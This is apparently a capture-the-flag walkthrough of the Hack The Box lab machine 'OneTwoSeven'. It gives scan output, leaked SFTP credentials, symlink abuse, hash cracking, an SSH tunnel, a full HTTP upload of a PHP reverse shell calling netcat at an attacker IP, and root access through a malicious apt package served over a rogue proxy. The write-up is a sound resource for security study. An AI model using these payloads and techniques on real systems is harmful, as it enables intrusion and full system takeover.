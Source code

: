 # Nmap
nmap -sC -sV -oA nmap/onetwoseven.htb 10.10.10.133

```
# Nmap 7.70 scan initiated Wed Apr 24 15:36:04 2019 as: nmap -Pn -sC -sV -oA nmap/onetwoseven 10.10.10.133
Nmap scan report for 10.10.10.133
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10*deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 48:6c:93:34:16:58:05:eb:9a:e5:5b:96:b6:d5:14:aa (RSA)
|   256 32:b7:f3:e2:6d:ac:94:3e:6f:11:d8:05:b9:69:58:45 (ECDSA)
|_  256 35:52:04:dc:32:69:1a:b7:52:76:06:e3:6c:17:1e:ad (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Page moved.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 24 15:37:22 2019 -- 1 IP address (1 host up) scanned in 77.43 seconds

``` 
# SFTP
we found a sftp login credentials on port 80 enumeration.

```
Username: ots-kMjNlZjE
Password: a6d23ef1
```
lets login in with command

```
sftp ots-kMjNlZjE@10.10.10.133
```
After some web searching and some experimenting we find that we can create sysmlnks and apache (which has more privleges that sftp will open them in url http://10.10.10.133/ots-kMjNlZjE/ .
so create a syslnk of root directory with name nice
```
sysmlnk root /
```
Opening it in web browser at url http://10.10.10.133/ots-kMjNlZjE/root .

# Web Exploitation
## Obtaining hash
On browsing the the url http://10.10.10.133/ots-kMjNlZjE/root , we find a file login.php.swp. Its a vim backup file, on viewing it, we get. a hash and of user ots-admin.
```
ots-admin
11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8 
```
## Cracking hash
Crack it with john (pass.hash is file only containing hash)
```
john --wordlist=rockyou.txt pass.hash
```
we get password as *Homesweethome1*

## SSH tunneling
Further exploring the source code we get a admin login at localhost:60080 of the remote machine.
Using ssh tunneling to tunnel our localhost:60080 to remote machine localhost:60080
```
ssh -N -L 60080:127.0.0.1:60080 ots-kMjNlZjE@10.10.10.133
```
~we can do this as sftp is bases on ssh

## Shell Upload
We get a login prompt after which we get a menu.php, with several php addons. After some enumeration and reading ots-addon-man, we upload reverse shell as following request.
~i use python for creating this request.

```
POST /addon-download.php/addon-upload.php HTTP/1.1
Host: 127.0.0.1:60080
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml*xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1805684181392670424798019532
Content-Length: 540
DNT: 1
Connection: close
Cookie: PHPSESSID=95bpafranr5ugmd7sh8b2895p5
Upgrade-Insecure-Requests: 1

-----------------------------1805684181392670424798019532
Content-Disposition: form-data; name="addon"; filename="ots-nice.php"
Content-Type: application/x-php

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS SHELL
echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f");
?>

-----------------------------1805684181392670424798019532--
```
# Privelge Escalation
~I used LinEnum.sh as enumeration script
As result of command ```sudo -l``` we find that we run apt-get update && apt-get upgrade and change environment variable http_proxy, so apt is our attack vector.
on internet we find an apt mitm (man in the middle) vuln, so did the following steps.

1. Follow the blog post make the malicious deb file, Package file.
~ we will only need these file you can ignore the rest of blog.

2. Create the repo stucture,

```
.:
devuan

./devuan:
dists  pool

./devuan/dists:
ascii

./devuan/dists/ascii:
main

./devuan/dists/ascii/main:
binary-amd64

./devuan/dists/ascii/main/binary-amd64:
Packages

./devuan/pool:
main

./devuan/pool/main:
v

./devuan/pool/main/v:
vim

./devuan/pool/main/v/vim:
vim_11.1.0875-3_amd64.deb
```

3. Make the box proxy to us,

```
export http_proxy=http://10.10.15.69:3128/
```

4. Proxy to a Proxy 

* the box proxies to a proxy on our box, the proxy tunnels locally to port 80.
~we doing this so the second proxy uses our /etc/hosts to resolve packages.onetwoseven.htb to 127.0.0.1. 
* we will use squid to listen on port 3128 (i.e default), which will forward it localhost listening on port 80
* Make appropriate changes to /etc/squid/squid.conf allow connections only to localhost host, otherwise the target box will be updated which is not good.
* Add this to squid.conf
```
acl GOOD dst 127.0.0.1
 http_access allow GOOD
 http_access deny all

```
* Run the command to start squid service

```
sudo service squid start
```

5. Setting Up Server

* Edit the /etc/hosts file
```
127.0.0.1 packages.onetwoseven.htb
```
* Start the HTTP Server on Port 80
```
sudo python -m SimpleHTTPServer 80
```

## Getting root shell,
Now all you gotta do is update and upgrade the box, which update your malicious deb package, thus giving you root shell.
